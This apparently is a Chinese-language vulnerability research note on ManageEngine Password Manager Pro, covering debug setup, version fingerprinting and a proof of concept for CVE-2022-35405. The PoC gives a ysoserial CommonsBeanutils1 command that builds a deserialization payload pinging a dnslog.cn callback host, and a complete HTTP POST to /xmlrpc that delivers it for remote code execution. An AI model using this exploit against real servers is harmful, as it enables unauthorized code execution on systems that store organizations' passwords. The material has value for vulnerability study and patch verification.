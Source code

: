 重启服务，再次查看java进程的参数：

![Untitled](../../img/zoho-case/Untitled%203.png)

IDEA设置如下

![Untitled](../../img/zoho-case/Untitled%204.png)

---

## 判断版本

在访问站点时，其默认加载的js、css路径中就包含了版本信息，如下图，`12121`代表其版本号

![Untitled](../../img/zoho-case/Untitled%205.png)

在官方站点可以下载相应版本号的安装包

- [https://archives2.manageengine.com/passwordmanagerpro/](https://archives2.manageengine.com/passwordmanagerpro/)

---

## CVE-2022-35405

这个洞影响范围 12100 及以下版本，在 12101 被修复

![Untitled](../../img/zoho-case/Untitled%206.png)

poc

使用`ysoserial`的`CommonsBeanutils1`来生成Payload：

```bash
java -jar ysoserial.jar CommonsBeanutils1 "ping uqgr9k.dnslog.cn" | base64 | tr -d "\n"
```

替换到下面的`[base64-payload]`部分

```bash
POST /xmlrpc HTTP/1.1
Host: your-ip
Content-Type: application/xml

<?xml version="1.0"?>
<methodCall>
  <methodName>ProjectDiscovery</methodName>
  <params>
    <param>
      <value>
        <struct>
          <member>
            <name>test</name>
            <value>
              <serializable xmlns="http://ws.apache.org/xmlrpc/namespaces/extensions">[base64-payload]</serializable>
            </value>
          </member>
        </struct>
      </value>
    </param>
  </params>
</methodCall>
```
